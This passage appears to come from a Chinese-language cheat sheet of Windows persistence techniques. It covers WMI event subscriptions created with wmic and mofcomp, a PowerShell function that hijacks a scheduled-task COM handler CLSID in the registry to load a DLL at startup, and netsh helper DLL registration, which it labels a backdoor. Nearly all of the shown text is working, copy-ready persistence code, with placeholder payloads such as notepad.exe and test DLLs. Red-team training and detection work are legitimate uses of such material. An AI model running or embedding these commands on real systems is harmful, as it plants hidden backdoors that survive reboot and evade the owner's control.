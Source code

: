 ```
Consumer = $Consumer;
Filter = $EventFilter;
};
```
管理员执行：
```
mofcomp test.mof
```
##### 13. [wmi](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe/) 

每隔60秒执行一次notepad.exe
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
##### 14. [Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/3gstudent.github.io/Userland-registry-hijacking/)  
劫持计划任务UserTask，在系统启动时加载dll
```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
##### 15. [Netsh](https://3gstudent.github.io/3gstudent.github.io/Netsh-persistence/) 
```
netsh add helper c:\test\netshtest.dll
```
后门触发：每次调用netsh